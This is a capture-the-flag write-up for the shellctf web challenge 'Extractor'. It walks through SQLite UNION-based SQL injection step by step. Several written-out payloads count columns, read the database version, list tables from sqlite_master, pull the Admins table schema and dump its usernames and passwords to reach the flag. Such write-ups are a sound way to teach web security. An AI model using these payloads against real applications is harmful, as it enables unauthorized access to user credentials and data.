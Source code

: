 # Extractor

When we visit challenge URL we get following response

![image](https://user-images.githubusercontent.com/86155751/183261192-f97ee77f-3037-4b5a-bf69-d412981ea60b.png)

Looking everything does gave any thing back. Let's register a user name sahil, pass sahil and content sahil. And login with it we get as below profile page.

![image](https://user-images.githubusercontent.com/86155751/183261253-89bb6ca5-c685-4312-8748-3dc3ec932d3f.png)

Nothing intresting...Knock the brain and one thing to try out at such register/login related problem where database is involved is SQL.

Starting with ' to check out if some error occour.

![image](https://user-images.githubusercontent.com/86155751/183261371-5aca8020-781f-487a-8e06-8f57cae67231.png)

![image](https://user-images.githubusercontent.com/86155751/183261385-af0f3185-a08b-436c-ab75-59bdfe6d226f.png)

Now tring some SQL payloads and observing responses.
- sahil' order by 2000;--

![image](https://user-images.githubusercontent.com/86155751/183261417-f30acca3-f18d-4605-9110-533f564242eb.png)

![image](https://user-images.githubusercontent.com/86155751/183261424-61620da2-8b29-4d73-a932-96a6d817e991.png)

We observe that 4 coloumns exists.

- sahil' union select 1,2,3,4;--

![image](https://user-images.githubusercontent.com/86155751/183261468-42c86987-cde5-4ca0-aff4-b5310f9be58b.png)

![image](https://user-images.githubusercontent.com/86155751/183261477-3e660cac-4fc6-4443-9afe-ad88bdc815ac.png)

So we can inject payloads at position 2,3,4

- sahil' union select 1,sqlite_version(),3,4;--

![image](https://user-images.githubusercontent.com/86155751/183261510-973690c8-5efb-4331-8869-be9ad5f3131b.png)

![image](https://user-images.githubusercontent.com/86155751/183261516-d4c96cd9-024d-4aa6-b441-7ef60e14314f.png)

We see that version is sqlite 3.35.5 

- sahil' union SELECT 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--

![image](https://user-images.githubusercontent.com/86155751/183261572-c8e60c70-d8bd-49db-89de-5a705c8abf83.png)

![image](https://user-images.githubusercontent.com/86155751/183261562-a0f364e1-7de3-400b-8973-2e5b33111637.png)

Getting the table names in database we got Admins,users

- sahil' union SELECT 1,sql,3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name='Admins';--

![image](https://user-images.githubusercontent.com/86155751/183261635-f4fad6c8-929c-4668-9401-578bc154b315.png)

![image](https://user-images.githubusercontent.com/86155751/183261624-25344a94-e923-45de-bccd-5023f0add99f.png)

We got coloumn names - id,user,pass,content

- sahil' union SELECT 1,user,3,4 from Admins;--

![image](https://user-images.githubusercontent.com/86155751/183261692-68c1ad02-a8a4-4e1c-b653-a91d4efc338f.png)

![image](https://user-images.githubusercontent.com/86155751/183261700-a2cff96e-66f8-4752-86f2-f45ad3a60b5f.png)

There exists a user named Adminnn let's read password for it

- sahil' union SELECT 1,user,pass,content from Admins;--

![image](https://user-images.githubusercontent.com/86155751/183261751-808c2f20-ad5e-463e-b285-46db2fdda2ff.png)

![image](https://user-images.githubusercontent.com/86155751/183261760-12577a32-1cbb-410a-b73c-f4f629cc6ed6.png)

We got the flag finally :- shellctf{Sql_1Nj3c7i0n_B45iC_XD}




